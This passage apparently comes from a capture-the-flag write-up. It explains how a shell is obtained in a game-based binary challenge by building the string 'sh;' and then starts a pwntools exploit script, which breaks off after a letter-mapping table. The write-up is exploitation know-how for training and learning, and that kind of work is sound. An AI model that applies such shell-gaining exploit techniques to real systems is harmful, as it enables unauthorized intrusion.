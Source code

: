 If we do everything correctly, then we get the shell:

<p align="center">
  <img src="screens/get_shell.jpg">
</p>

The last thing we need to do is to play the game in such way that `sh;` is constructed as in the picture. Well, it was a pain, so let's just skip this part :D

### The final exploit

So here are [the final exploit](./exploit.py)

```python
import time

from pwn import *


magic_dict = {
    0b0000: 'A',
    0b1000: 'E',
    0b0100: 'G',
    0b0101: 'I',
    0b1100: 'K',
    0b0011: 'L',
    0b1111: 'N',
    0b1001: 'O',
    0b0001: 'P',
    0b1101: 'S',
    0b0110: 'T',
    0b1011: 'U',
    0b1110: 'V',
    0b1010: 'X',
    0b0111: 'Y',
    0b0010: 'Z'
}


def gen_input(addr, val):
```